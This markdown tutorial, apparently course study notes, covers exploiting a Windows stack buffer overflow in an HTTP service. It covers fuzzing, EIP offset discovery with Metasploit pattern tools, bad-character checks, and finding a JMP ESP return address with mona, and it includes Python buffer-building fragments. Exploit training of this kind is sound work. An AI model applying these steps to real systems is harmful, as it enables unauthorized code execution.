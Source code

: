 # Windows Buffer Overflows

In this example we target an application serving HTTP requests on port 80.

* Use SysInternals TCPview tool to identif process number listneing on port 80.
* Must open Immunity Debugger as administrator.
* File > Attach and attach the running process.
* This will pause program execution, resume it by pressing F9.
* Run the python fuzzer against the application.
* Watch for the overflow as EIP points to 41414141.
* Will crash the application - restart in services.

A fuzzer is eneration-based if it creates malformed application inputs from scratch, following things like file format or network protocol specifications.  
A mutation-based fuzzer changes existing inputs by using techniques like bit-flipping to create a malformed variant of the original input.  
A fuzzer that is aware of the application input format is a smart fuzzer.

### Controlling EIP

To get control of the EIP we need to know exactly where to write into it. Fastest way is to use a pattern and identify the offset in the EIP:  
```bash
locate pattern_create
msf-pattern_create -h

msf-pattern_create -l 800

# Update python script to use the generated payload.
# Crash the program with the payload.
# Note the EIP contents

# Find the offset with the hex in the EIP
msf-pattern_offset -l 800 -q 42306142

# Update the script to load to EIP:
  filler = "A" * 780
  eip = "B" * 4
  buffer = "C" * 16

  inputBuffer = filler + eip + buffer

# Retry and verify EIP contains BBBB.
```

### Shellcode Space

We need around 350-400 bytes of space for our shellcode. To find enough space we can increase the size of the buffer and see if it changes the crash:
```python
filler = "A" * 780
eip = "B" * 4
offset = "C" * 4
buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))

inputBuffer = filler + eip + offset + buffer
```

We can then overflow again, and identify the last address minus the first address for DDDD to identify the available space.

### Check for Bad Characters

* Iterate using the python script for bad charaters.
* Right click on ESP and View in Dump. Look for the last character before it bombs out.
* Remove that character from the script and repeat.


### Finding a Return Address

* Attach program in Immunity.
* Run !mona modules
* Look for library with no protection flags including NXCompat (DEP protection).
* Look for library with no bad characters in address.  

If DEP is enabled, look for the address in the .text code segment.  

Find the opcode equivalent of JMP ESP:
```bash
msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
nasm > 
```

Search for JMP ESP using hex representation in the located library with `mona.py find`. Use `-s` for the escaped hex string, and `-m` for the required module name:  
`!mona find -s "\xff\xe4" -m "libspp.dll"`  

Note the resultant address and check for bad characters: 0x10090c83. We can then click on the 'go to address in dissasembler' button and enter the address. This should result in a JMP ESP instruction.  

The idea is to redirect EIP to this address at time of crash, and the JMP ESP instruction will execute and lead into the shellcode.

Enter the EIP variable to reflect the new address. Note the reversed order due to endianness. In little endian format the low-order byte of the number is stored in memory at the lowest address, and the high-order byte at the highest address. Therefore, we have to store the return address in reverse order in our buffer for the CPU to interpret it correctly in memory.

```python
eip = "\x83\x0c\x09\x10"
```

Use F2 to place a breakpoint at this address to see if it is reached. If reached, press F7 to step into the instruction and we should arrive at our dummy shellcode.

















